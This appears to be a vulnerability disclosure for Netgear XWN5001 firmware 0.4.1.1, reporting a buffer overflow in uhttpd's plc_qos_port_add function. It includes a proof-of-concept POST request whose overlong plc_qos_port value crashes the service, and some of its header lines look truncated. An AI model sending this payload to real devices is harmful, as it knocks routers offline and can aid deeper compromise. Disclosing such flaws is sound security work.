

# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary has a buffer overflow vulnerability. When a specific network packet is sent to the uhttpd binary, the sprintf operation crashes.
## detail
The vulnerability is located in the function plc_qos_port_add at address 0x4312B8 of the binary usr/sbin/uhttpd. The parameter plc_qos_port passed to sprintf is the source of the issue.



## Send package
```txt
POST /apply.cgi? tim
Host: /cgi-bin/
C
Accept:
Con
Content-Length: 717

qos_port_priority=1111111111111111111111111111111111111111&plc_qos_port=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&%20timestamp=;wzq&submit_flag=plc_qos_port_add
```
